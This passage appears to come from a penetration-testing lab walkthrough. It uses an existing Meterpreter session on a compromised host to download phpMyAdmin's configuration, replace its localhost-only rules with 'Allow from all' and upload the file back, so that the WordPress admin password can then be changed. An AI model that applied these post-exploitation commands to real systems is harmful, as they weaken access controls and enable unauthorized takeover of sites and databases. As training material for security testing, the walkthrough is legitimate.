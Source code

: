 If we want to change the WordPress admin password, you need to do that through MySQL. But that will require knowledge of MySQL queries.

So we leverage phpMyAdmin, because phpMyAdmin is much easier to use in regards to modifying data that's stored within a table.

```
meterpreter > cd ..
meterpreter > ls
meterpreter > cd ..
meterpreter > ls
```

I'm looking for the phpMyAdmin config file. That is probably stored under alias.

```
meterpreter > cd alias\\
meterpreter > ls
```

We have phpmyadmin.conf. This configuration file is used to control access and the way phpMyAdmin works. This file has been modified to prevent anyone from accessing it, apart from the user on the localhost.

We can download this file locally.

```
meterpreter > download phpmyadmin.conf
```

```
ls
vim phpmyadmin.conf
```

This is where those rules have been set. The default order is set to deny and allow. And it denies access from all IP addresses and allows access only from the localhost or the target system itself.

We can get rid of all of these rules.

Instead of allowing access only from the localhost: 

```
Allow from all
```

We need to upload the updated version.

```
meterpreter > upload phpmyadmin.conf
meterpreter > ls
```

And the great thing with Meterpreter is it will automatically replace the file with the one that you've just uploaded. So that contains the changes.

We can confirm that by:

```
meterpreter > cat phpmyadmin.conf
```
